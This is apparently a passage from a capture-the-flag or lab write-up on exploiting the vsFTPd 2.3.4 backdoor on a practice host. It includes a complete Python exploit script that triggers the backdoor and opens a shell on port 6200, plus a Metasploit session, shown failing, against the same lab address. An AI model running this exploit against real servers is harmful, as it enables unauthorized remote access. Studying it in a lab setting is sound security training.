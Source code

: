 ```python
def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)                           
parser=argparse.ArgumentParser()        
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()       
host = args.host                        
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()
```

Let's try to run this exploit. And a badluck, it didn't work.🥲
But no worries, we still got one exploit left in our quiver. Let's give it a try.

```bash
msf6 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > use exploit/unix/ftp/vsftpd_234_backdoor 
[*] Using configured payload cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

